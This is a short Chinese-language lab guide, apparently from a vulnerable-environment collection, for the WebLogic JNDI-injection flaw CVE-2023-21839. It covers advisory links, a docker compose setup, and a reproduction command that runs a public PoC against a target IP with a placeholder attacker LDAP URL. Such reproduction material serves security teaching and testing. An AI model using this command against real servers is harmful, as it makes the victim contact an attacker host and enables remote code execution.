

# WebLogic 未授权远程代码执行漏洞 (CVE-2023-21839)

Oracle WebLogic Server 是业界广泛使用的 Java EE 企业级应用服务器。

在 [Oracle 2023 年 1 月安全公告](https://www.oracle.com/security-alerts/cpujan2023.html) 中，Oracle 修复了影响 WebLogic Server 12.2.1.3.0、12.2.1.4.0 和 14.1.1.0.0 版本的严重安全漏洞 CVE-2023-21839。

该漏洞允许未授权远程攻击者通过 T3 或 IIOP 协议发起 JNDI lookup 操作。如果 JDK 版本过低或本地存在可用的反序列化 gadget（javaSerializedData），攻击者可进一步实现远程代码执行（RCE）。

参考链接：

- <https://www.oracle.com/security-alerts/cpujan2023.html>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-21839>
- <https://github.com/houqe/POC_CVE-2023-21839>

## 环境设置

执行以下命令启动 WebLogic Server 12.2.1.3 漏洞环境：

```
docker compose up -d
```

启动完成后，访问 `http://your-ip:7001/console` 可以看到 WebLogic 管理控制台登录页。

## 漏洞复现

你可以使用公开的 POC 工具 <https://github.com/houqe/POC_CVE-2023-21839> 进行漏洞复现。

```shell
python CVE-2023-21839.py -ip 192.168.25.129 -p 7001 -l ldap://craft.ldap.tld/test
```

漏洞利用成功后，可在 DNSLog 平台或 LDAP 服务端看到来自目标服务器的请求，如下图所示：


